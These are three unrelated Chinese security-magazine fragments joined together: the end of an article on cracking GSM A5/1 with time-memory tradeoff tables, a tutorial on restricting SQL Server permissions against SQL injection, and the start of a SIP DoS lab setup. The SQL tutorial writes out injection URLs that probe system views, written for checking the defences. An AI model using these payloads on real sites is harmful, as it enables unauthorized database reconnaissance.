钟周期开并不会降低 GSM 表的可用性。这 100 个时钟将密钥值缩小至原始值 15% 的大小，有效地减少了近 3 位的密钥大小。经查 Excel 模型中的数据，对速度的影响大约是 30 倍左右。

表压缩。几个优化技术开始尽可能有效地存储头结点和尾结点的值。首先，头结点值并不是随机计算出来的，而是由简单的伪随机函数生成。该函数的输入值以头结点值存储，在此案例中是 34 位而不是随机值必需的 64 位。第二个优化方案则利用表格按尾结点分类这个事实。与提供整个值不同的是，需要存储前面值的增量。只有每个块中的头结点被完全存储。由于邻近值在最后几位都不相同，可以使用不同长度的代码将完整链编码成 52 至 72 位长度（平均每个链表大约有 54 位长度），这样就有效地将表压缩至原表 2×64 位格式 42% 的大小。给复杂表结构添加一个索引便于快速查找。将该索引经编码后存储在内存中，这样就可以从 2GB 的 RAM 中检查表。47GB 大小的表格中该索引大约占 42MB 空间。

可以从项目网站中下载实现这些优化方案的开放 TMTO 框架。

一些标准技术可以使得一般的加密攻击，特别是 TMTO 加密攻击变得更难实施。

避免已知明文攻击。传输已知数据没有任何作用，因为对方已经知道你将传输的信息内容。当使用加密时，已知明文数据包甚至是有害的。一个设计良好的系统只发送未知数据。在无法预测静态数据包情况下，这些数据至少应随机产生。有效载荷填充的随机化已对 GSM 标准化。这种快速修复程序会导致部署好 A5/1 攻击者停止工作。然而，即使只需要对基站进行很小的改动，随机化至今并未广泛使用。

分组密码。虽然严格上讲分组密码并不优于流密码，但是分组密码加速了密码分析的过程。今天包括 3DES、AES、RSA 和 ECC 在内的标准密码都是基于块的加密方式。通过使用块加密，TMTO 攻击越来越难实施，这是因为此时仅仅是被加密的数据块遭受攻击，而并不是攻击连续的流密码段。一个 64 位块密码的 TMTO 表需要至少 64 倍以上明文数据包，该数据包必须与流密码中的 TMTO 表一样有效才行。对于 GSM，一个 128 位块密码已经为 A5/3 标准化了。目前，还没有针对 A5/3 算法的实际攻击，在 3G/UMTS 中也使用 A5/3 算法。然而，GSM 运营商的 A5/3 算法的 rollout 成本太高了，而且还没有主操作器升级。

## 从…经

应用这些优化方案，我们能够破解应用于标准硬件上的 A5/1 加密算法。当前表集合总计 2TB 大小的 40 个表。运用四个最先进的图形卡计算这些表簇大约需要一个月时间，而生成这些表需要花费大约 850 千瓦时的电力。

给定两个已加密的密文（若明文可知，如帧密文方式和一个明文系统消息），则从这个表集合中找到其对应的解密密钥，其概率将高达 90%。两个 GPU 完成破解大约需要 5 秒钟。快速 SSD 硬盘在 5 秒钟内就可以完成所需执行的 10 万次查找操作。小 U 盘的大型阵列约可以较低的成本提供类似的速度。

安全措施的生存期有限，同时 GSM 中的 A5/1 密码生存周期已经结束。在冷战时期作为一项媒介安全密码设计出来，所以现在日益强大的计算机能够破解其 64 位密钥，这是完全正常的。为了高并行性编程和智能存储分配，将技术和加密优化结合起来，甚至用一台 PC 在一分钟之内就可以将 A5/1 算法破解。

短期协议补丁已经出现了，不公开已知明文，这就使得破解越来越困难。这些补丁的配置应该高度重视。从长远来看，GSM（第一代）将无法提供足够的安全性和更强的替代品，而 UMTS（3G）和 LTE 技术（4G 技术）应该是首选。

前置知识：无  
关键词：SQL 注入、数据库、用户权限

# 修改数据库用户权限防范 SQL 注入



文/图 高志新

大家知道，为了利用 SQL 注入获取数据库信息，或者获取 Webshell，通常需要利用到数据库的一些系统视图、存储过程等，而能否访问这些信息，取决于 Web 应用连接数据库的用户权限。因此为了防止 SQL 注入，除了修改 Web 程序，数据库的权限设置同样重要。

默认的数据库用户都属于 Public 角色，而 Public 角色对大量系统视图、存储过程都有访问权限（Select 或者 Execute），如果一个一个视图、存储过程 Revoke，一定非常费时费力。本文利用游标，结合 sys.sysobjects 系统视图和 sys.sp_helprotect 存储过程，快速修改数据库用户权限。

## 新建登录名

首先新建登录，来替换原来高权限的应用连接数据库的用户（比如 sa、db_owner 角色用户等）。

新建登录名和 book 数据库下的用户：gzx（图 1），默认数据库选择 book，服务器角色不选择。此时 gzx 只是 Public 角色（图 2）。

为了能够访问应用，必须授予对 book 数据库中我们应用需要访问表的 Delete、Insert、Select、Update 权限。具体应该授予哪些权限，视应用访问需要而定。如果只是读取数据库信息，无新增、修改，可以只给 Select 权限，权限尽量小。

系统视图 sys.sysobjects 中包含了所有用户自建表的信息，因此通过以下语句可以查询到所有自建表：

```sql
select name from sys.sysobjects where xtype='U' and category<>2
```

再利用游标，一个一个表授予 gzx 用户 Delete、Insert、Select、Update 权限，SQL 语句如下：

```sql
use book;
create table #result(name nvarchar(200));
insert into #result select name from sys.sysobjects where xtype='U' and category<>2;
DECLARE usertables CURSOR FOR
  select name from #result order by name;
DECLARE
  @tableName nvarchar(200),
  @FullCommand nvarchar(400);
OPEN usertables;
FETCH NEXT FROM usertables INTO @tableName;
WHILE (@@FETCH_STATUS = 0)
BEGIN
  SET @FullCommand='GRANT delete ON ['+@tableName+'] TO gzx';
  EXEC sp_executesql @FullCommand;
  SET @FullCommand='GRANT insert ON ['+@tableName+'] TO gzx';
  EXEC sp_executesql @FullCommand;
  SET @FullCommand='GRANT select ON ['+@tableName+'] TO gzx';
  EXEC sp_executesql @FullCommand;
  SET @FullCommand='GRANT update ON ['+@tableName+'] TO gzx';
  EXEC sp_executesql @FullCommand;
  FETCH NEXT FROM usertables INTO @tableName;
END;
CLOSE usertables;
DEALLOCATE usertables;
drop table #result;
```



图 1　新建登录名和用户



图 2　数据库角色

## 添加用户的权限

新建的 gzx 用户只是 Public 角色，在 book 数据库上只有 Connect 权限，如图 3 所示。



图 3　gzx 在 book 数据库上的权限

## 修改连接信息

接下来修改应用连接数据库信息，将连接用户替换成上述新建的 gzx（例如，如图 4 所示，修改 conn.inc 文件），这样应用就可以访问了。



图 4　应用连接数据库信息

## 修改 Public 角色权限

虽然新建的 gzx 用户只是 Public 角色，但通过 sys.sp_helprotect 存储过程可以发现 Public 在各个数据库上都具有很多权限（图 5），甚至一些危险存储过程的 Execute 权限。而默认所有用户都有 Public 角色权限，因此必须将 Public 角色的一些权限 Revoke 掉。我们先将 sys.sp_helprotect 存储过程的执行结果保存到一个临时表中，再利用游标将 Public 角色在各个对象上的权限 Revoke 掉，SQL 语句如下：



图 5　Public 的权限

```sql
create table #result(owner sysname null,object sysname null,grantee nvarchar(60) null,grantor sysname null,protecttype nvarchar(60),actionname nvarchar(60),columnname nvarchar(60))
insert into #result exec sp_helprotect
declare rs cursor
for
  select owner,object,actionname from #result where grantee='PUBLIC' and protecttype='Grant' order by object
...
SET @FullCommand='REVOKE select ON ['+@ownername+'].['+@objectname+'] FROM public'
EXEC sp_executesql @FullCommand
...
SET @FullCommand='REVOKE execute ON ['+@ownername+'].['+@objectname+'] FROM public'
EXEC sp_executesql @FullCommand
...
drop table #result
```

分别在 master、model、msdb、tempdb、book 数据库下执行上述 SQL 语句。

## 权限验证

经过上述动作后，Public 角色的权限基本都已 Revoke，gzx 用户只能“Delete、Insert、Select、Update”应用需要访问的表，其他权限基本没有了。为了保险起见，就一些 SQL 注入常用的视图、存储过程访问权限进行验证。

## 1．验证系统视图

SQL 注入工具获取数据库信息一般需要利用到 sys.objects、information_schema.tables、sys.tables、sys.all_objects、sys.sysobjects、information_schema.columns、dbo.syscolumns、sys.columns、sys.syscolumns 等系统视图，我们在存在 SQL 注入的 URL 后面添加查询系统视图的 SQL 语句，验证这些视图是否可以访问：

`http://192.168.51.188/book/viewnews.asp?newsid=52 and (select count(name) from master.dbo.sysobjects where xtype=char(88))>1`

`http://192.168.51.188/book/viewnews.asp?newsid=52 and (select count(column_name) from information_schema.columns)>1`

如图 6 所示，可以发现，上述 URL 已经不能访问，提示 500 错误。



图 6　验证系统视图访问权限

## 2．验证数据库层面权限

SQL 注入中经常需要创建表，在 Microsoft SQL Server Management Studio 中以 gzx 连接新建查询，在 book 数据库下创建一个新表，验证 gzx 是否具有创建表的权限，结果如图 7 所示，说明 gzx 用户已无 Create Table 权限。

## 3．验证扩展存储过程

为了猜测 Web 目录，Windows 2000 下常常需要用到读注册表信息的扩展存储过程：sys.xp_regread，但现在很多都是 Windows 2003 系统，此时用到较多的是扩展存储过程：sys.xp_dirtree。



图 7　验证 Create Table 权限

在 Microsoft SQL Server Management Studio 中以 gzx 连接新建查询，执行存储过程：master.sys.xp_dirtree，列举 C 盘下所有目录名；执行结果如图 8 所示，说明 gzx 用户已经无 sys.xp_dirtree 扩展存储过程执行权限。



图 8　验证执行扩展存储过程

## 4．验证存储过程

SQL 注入中经常用到扩展存储过程 `master.sys.xp_cmdshell`，而在 MS SQL Server 2005 中默认已经阻止了对该扩展存储过程的访问，因为“此组件已作为此服务器安全配置的一部分而被关闭”。如果想恢复访问，需要用到存储过程 `master.sys.sp_configure`。

在 Microsoft SQL Server Management Studio 中以 gzx 连接新建查询，执行存储过程：`master.sys.sp_configure`，尝试修改配置，结果如图 9 所示，系统拒绝了对 `master.sys.sp_configure` 的执行权限。

限制为只能“Delete、Insert、Select、Update”一些指定的表，一些 SQL 注入需要用到的系统视图、存储过程等访问权限都已拒绝，从而一定程度上达到防止 SQL 注入的效果。



## 结束语

经过上述修改，Web 网站的数据库连接用户权限已经严格……

前置知识：无  
关键字：SIP、DOS 攻击

## 针对 SIP 协议的三种 DOS 攻击危害性测试


文/图 Handt、换心

## 实验环境搭建

### 网络拓扑结构

对于一些比较前沿的研究，大部分在高校和黑客间最先开始，而这些工具的开发大部分都是基于 *nix 系统的。所以，本文读者如果有志于前沿研究，应该掌握一定的 Linux 下的基本知识，比如简单的 Shell 编程、基本操作。当然，这个不在本文讨论范围内。攻击拓扑图如图 1 所示。



一共四台 PC，三台作为攻击端，一台作为服务器。各机器的配置参见 1.2 节。出于简单考虑，所有机器都处于同一网段。在真实的环境中，会涉及比较复杂的网络结构，比如基本的 NAT 转换，还需要在服务器端修改配置文件，加载相应的模块。

### 硬件环境

攻击方（UAC）：Sipp。

Sipp 是一款针对 SIP 协议的测试工具和流量生成器，该软件可以很容易地仿真出上万用户同时访问 SIP 系统的效果，可以说是测试 SIP 代理、B2BUAs、SIP PBX 的不二选择。开发者是 HP 和 IBM 等公司的员工，软件开源。该软件运行在 Linux 系统上，虽然可以通过 Cygwin 模拟后在 Windows 下运行，不过不推荐（因为速度太慢了，而且并发数没保证）。我在虚拟机里面安装 Debian Lenny 作为攻击端。

- SIP 服务器（提供 proxy 和 register 功能），Sip Express Router（ser）0.9.6
- 操作系统，Ubuntu 10.04
- 内核，2.6.32-22-generic
- CPU，Intel Core2 Duo（Merom）T5750（2.0GHz）
- 内存，2GB DDR2
- 网卡，标准百兆以太网接口

## SER 服务器的安装和配置

Debian/Ubuntu 用户可以从官方网站直接下载：`sudo aptitude install ser`。

但是这个下载的版本不是很全，有些模块不存在。所以，最好自己从官网下载源码编译。附件中已经打包了需要的文件，安装的时候遵循 `install` 文件的说明即可。编译的可执行文件默认在 `/usr/local/sbin/` 下，配置文件为 `/usr/local/etc/ser/ser.cfg`。读者可以按照文档 `SER-GettingStarted` 中的说明修改配置文件以满足自己的需求。附件中提供了两份配置文件，`ser_hello.cfg` 可以简单地注册和通话，`ser.cfg` 在前者基础上提供了验证功能。

## 服务器如何统计数据

服务器遭受 DOS 攻击时，影响主要表现在三个方面：带宽、CPU、内存。基于此，我们需要分别统计这三个数据。在开始统计前，为了使数据尽量准确，需要关闭 x-window 和 syslog。在试验中可以看到，x-window 的 CPU 占用量至少在 10% 以上；而 syslog 在攻击量过大时，CPU 使用率会超过 120%。这对最后的统计结果影响很大。关闭 x-window 方法：切换到 tty1-tty6 任意一个（Ubuntu 中按 Alt+Ctrl+Fx 键，Fedora 中是 Ctrl+Fx），登录后输入：

```bash
sudo /etc/init.d/gdm stop

# 如果实验结束要启用 x-window
sudo /etc/init.d/gdm start

# 关闭 syslogd
service syslogd stop
# 或者
pkill syslogd
```

## 统计网络带宽流量

